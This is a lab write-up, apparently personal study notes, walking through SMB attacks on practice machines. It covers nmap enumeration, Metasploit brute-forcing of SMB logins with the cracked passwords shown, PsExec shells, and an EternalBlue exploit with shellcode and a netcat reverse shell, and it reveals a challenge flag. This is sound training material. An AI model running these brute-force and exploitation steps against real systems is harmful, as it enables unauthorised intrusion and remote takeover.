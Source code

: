 # 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```

![](assets/image-20230312184902175.png)

> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

![Metasploit smb_login](assets/image-20230312190418458.png)

```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 ![psexec.py](assets/image-20230312191210984.png)

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```

![Metasploit psexec](assets/image-20230315154321522.png)

- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`e0da81a9cd42b261bc9b90d15f780433`

![](assets/image-20230312191432614.png)

</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](assets/image-20230314175805319.png)

```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```

![sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131](assets/image-20230314181920417.png)

> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```

![./shell_prep.sh](assets/image-20230314183458007.png)

- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell

![Reverse Shell Success](assets/image-20230314184120008.png)

### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```

![Metasploit ms17_010_eternalblue](assets/image-20230314184602900.png)

------

